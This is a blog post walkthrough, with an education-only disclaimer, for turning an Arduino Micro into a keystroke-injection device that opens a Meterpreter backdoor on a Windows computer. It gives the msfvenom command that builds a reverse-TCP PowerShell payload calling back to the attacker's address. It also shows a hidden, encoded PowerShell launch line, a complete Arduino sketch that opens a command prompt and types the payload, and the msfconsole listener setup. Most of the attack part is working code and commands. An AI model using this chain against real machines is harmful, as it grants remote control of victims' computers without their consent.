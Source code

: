 ```yaml
---
layout: post
title:  "USB Rubber Ducky with Arduino Micro"
date:   2019-03-17 19:28:52 +0300
comments: true
categories: [Arduino, GNULinux]
---
```

***DISCLAIMER:*** *This is merely a proof of concept for education purposes. Use it only against your own networks and devices!*

In this post I will show you how to open a [meterpreter backdoor](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) in a target Windows system using a Arduino Micro acting as a HID keyboard. This attack vector was first developed by the [Hak5](https://shop.hak5.org) community, given the name [Rubber Ducky](https://github.com/hak5darren/USB-Rubber-Ducky/wiki). It basically exploits the fact that some micro-controllers have the capacity to act as a [HID](https://en.wikipedia.org/wiki/Human_interface_device), which you can use to send commands as if they were coming from a plugged in keyboard.

## Requirements

# Metasploit Framework

[Metasploit](https://www.metasploit.com) is a penetration testing framework which we will use to generate the payload, listen to the backdoor and spawn a meterpreter shell on the target system. The site provides various installers for OS X, Windows (32-bit) and Linux, I will be doing this on a Debian Linux system, but there is no reason why it wouldn't work on any other.

# Arduino Micro

[Arduino Micro](https://store.arduino.cc/usa/arduino-micro) is the smallest Arduino board using a micro-controller capable of HID simulation ([ATmega32U4](https://www.microchip.com/wwwproducts/ATmega32u4)) in our case. We will also use the Arduino IDE to program the board.

## The Code

# msfvenom

First the will need to generate the things which the Arduino will "type". This will be a `reverse_tcp` payload delivered with a Powershell command. Once in `msfconsole`, type
{% highlight python %}
msfvenom -p windows/x64/meterpreter/reverse_tcp -f psh-cmd LPORT=4444 LHOST=YOUR_IP_ADDRESS -o rbr0
{% endhighlight %}

If the target Windows machine is in your local network, then replace `YOUR_IP_ADDRESS` with your local IP address. If the target machine is outside your network, then you will need to provide your global IP address (try `curl icanhazip.com`). However, this will also require [port forwarding](https://portforward.com) if you are behind a router. I am doing this on a [Google Cloud VM instance](https://cloud.google.com/compute/docs/instances/), so I simply had to setup a firewall rule to allow all incoming `tcp:4444` connections. This command will produce a file named `rbr` with a similar content of:

{% highlight python %}
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG ...
{% endhighlight %}

This command is basically what will allow us to spawn a meterpreter shell in the target system. Now we will have to find a way to "type" it.

# Arduino IDE

The Arduino [Keyboard](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) library allows one to "send keystrokes to an attached computer through their micro’s native USB port". So our job is to simply save the command as a string and then type it out. However, there is a subtle problem: the command is about 7KB's. The onboard SRAM memory storing the code variables on the ATmega32U4 only has a 2.5 KB capacity. This means we will have to use the onboard flash memory of 32 KB, since the command to be typed out doesn't change. The Arduino IDE provides the keyword [PROGMEM](https://www.arduino.cc/reference/en/language/variables/utilities/progmem/) for this. Data stored in this manner also has its own functions for access, so use caution.

The command is to be written on the Windows Command Prompt, so we will also have to send the keystrokes Windows(❖) + R then type `cmd` then press `ENTER` to get a `cmd` window.

Below is the Arduino sketch that I have come up with:

{% highlight cpp %}
/*
 *    USB Rubber Ducky with Arduino Micro
 *    
 *    Provided the output of a psh-cmd from msfvenom, this code spawns a meterpreter session in the Windows target machine.
 *    The psh-cmd is stored in the FLASH memory, so the maximum command size is about 28KB in an Arduino Micro.
 *    The whole thing takes about 16 seconds to execute with a command of 7KB.
 *    
 *    Created 17 March 2019
 *    By Mirac L. Gulgonul
 *    
 *    https://mlg556.github.io
 *    
 *    This work is licensed under a Creative Commons Attribution-ShareAlike 3.0 Unported License
 *    https://creativecommons.org/licenses/by-sa/3.0/
 */

#include "Keyboard.h"

const char command[] PROGMEM = {}; // Array pre-allocation on the FLASH memory to store the command.
char chr; // Variable to store the current character of the command.

// The main method, initialises the Keyboard module, opens the Command Prompt and sends the command.
void setup() {
    Keyboard.begin();
    delay(500); // The minimum delay needed.
    cmdOpen();
    typer();
    Keyboard.write(KEY_RETURN);
}

// Does nothing
void loop() {}

// Sends the keystrokes of the psh-command by looping through every character and using Keyboard.write()
void typer() {
    for (int i = 0; i < strlen_P(command); i++) {
        chr = pgm_read_byte_near(command + i);
        Keyboard.write(chr);
    }
}

// Opens the command prompt: hitting Windows+R, typing "cmd" and pressing ENTER.
void cmdOpen() {
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    delay(30);
    Keyboard.releaseAll();
    delay(100);
    Keyboard.println("cmd");
    Keyboard.write(KEY_RETURN);
    delay(500);
}
{% endhighlight %}

## msfconsole

Now that the payload is ready to be "typed", we have to be listening to it. In `msfconsole`, type:
{% highlight ruby %}
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
{% endhighlight %}

Now that we are listening, you can finally insert your Arduino/Rubber Ducky to the target machine. If all goes well (my version takes about 16 seconds in total) you will be presented with a meterpreter session. Go crazy with it! (or type `help`).

## Downloads

[rubber.ino][1]

[1]:{{ site.url }}/downloads/2019-03-17-usb-rubber-ducky-with-arduino-micro/rubber.ino
